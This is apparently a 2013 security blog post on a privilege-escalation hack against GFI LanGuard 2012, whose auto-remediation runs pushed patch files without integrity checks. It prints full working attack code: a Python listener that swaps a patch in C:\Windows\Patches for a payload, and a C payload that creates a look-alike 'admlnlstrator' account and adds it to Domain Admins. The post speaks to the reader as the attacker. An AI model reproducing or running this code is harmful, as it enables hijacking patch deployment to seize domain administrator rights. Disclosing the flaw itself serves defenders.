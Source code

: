 ```yaml
---
layout: splash
title: "GFI LanGuard 2012 Priviledge Escalation"
date: 2013-02-05 00:00:00 -0700
categories: Blog Tools
permalink: /:title.html
---
```

## Download

[https://github.com/RabbidByte/GFI2012-PrivilegeEscalation](https://github.com/RabbidByte/GFI2012-PrivilegeEscalation)

## What is GFI LanGuard 2012?
GFI LanGuard 2012 [http://www.gfi.com/network-security-vulnerability-scanner](http://www.gfi.com/network-security-vulnerability-scanner) is a software package that competes with Microsoft SCCM. This software is placed in a network environment to inventory hardware, software, perform basic vulnerability assessment, and manage the software packages on the computers within the network. At the time of writing this article the current version in 2012.

LanGuard is actually quite a nice product. Sure it does have some issues like the amount of bandwidth required between sites, but all in all it gives an administrator great insight into what is actually out on their network. However we all know that not all administrators are created equally.

In order for this hack to work an admin is required to implement a poor configuration. Luckily for you GFI provides absolutely no training for this product and there were no other third party training programs found either. So that basically leaves your admin to read the PDF’s supplied by GFI at [http://www.gfi.com/network-security-vulnerability-scanner/manual](http://www.gfi.com/network-security-vulnerability-scanner/manual) Now ask yourself, would your admin read these? Probably not because the software is so intuitive that installation and roll out is really point and click.

## How it works
LanGuard has a very handy feature called auto remediation. This feature will push updates approved by the administrator to the machines out in the network. When the process begins the updated packages are copied to the local machine and then executed. The patches are installed and the user can be sent a prompt to restart the machine.

When we first started looking at a way to hack this process we had no idea it would be so simple. There is absolutely no integrity check on the files before they are executed. So really what is to stop someone from changing the contents of the files before they are executed? Nothing. However GFI copies the files into the folder C:\Windows\Patches which has local security policies on it. This is the reason why local administrator privileges are required.

Once you alter the files and the GFI process has copied all patches to the machine an on the fly batch file is created and the files are executed. So don’t change the file name or it won’t get run.

Here is what we did to inject our own file content. First a listener program is launched to monitor the contents of the Patches directory. Once it sees that there are two files in the directory (meaning one has been written and the second is probably still being written to and locked) it will overwrite the first file with the payload file.

The payload file in this example is really nothing special. Hell this whole hack is not special … we had such high hopes for it too. Either way the executable adds an AD account and gives it some nice domain permissions. Once it is run … try out your new account.

## Requirements for Hack to be Successful
As previously mentioned there are some settings and requirements needed for this hack to work. So here they are.

1. Attacker must have local admin on a windows box that is joined to the same domain as GFI. This is really not hard to get. If you don’t know how to get local admin just check Google.
2. The administrator MUST have configured a Domain Account in the Auto Remediation Settings. The hack will be able to elevate privileges to the level of this account.

![alt text](/blog/assets/images/gfi/Login.png "Login")

## The Files
listener.py

```python
'''
Created on Dec 21, 2012
@author: RabbidByte (previously Essential Exploit Labs)
'''
import os, shutil
path="C:\\Windows\\Patches\\"
payload="payload.exe"
hook=0
files = []

dirList=os.listdir(path)
for fname in dirList:
    fileToDelete = path
    fileToDelete += fname
    os.remove(fileToDelete)
fname = None

while hook==0:
    dirList = None
    dirList=os.listdir(path)
    for fname in dirList:
        if fname.endswith(".exe"):
            if fname not in (files):
                files.append(fname)
    if len(files) > 1:
        print "We got the Files "
        print files[0]
        print "and "
        print files[1]
        print "Time to launch payload!"
        hook=1

fReplace = path
fReplace += files[0]
shutil.copy(payload, fReplace)
```

payload.c

```c
// payload.cpp 
// RabbidByte (previously Essential Exploit Labs)

#include "stdafx.h"
#include <Windows.h>

void exploit()
{
	system("net user admlnlstrator MyPassw0rd /add /domain");
	system("net group \"Domain Admins\" admlnlstrator /add /domain");
}

int _tmain(int argc, _TCHAR* argv[])
{
	exploit();
	return 0;
}
```

## NOTES
1. Due to the special requirements needed for this to work we have labeled it as a hack and not an exploit.
2. Many networks have systems that alert admins when powerful AD accounts are created. You will probably get busted if you try to use this the way it is.
3. As always the author of this article is not responsible for how you use this information.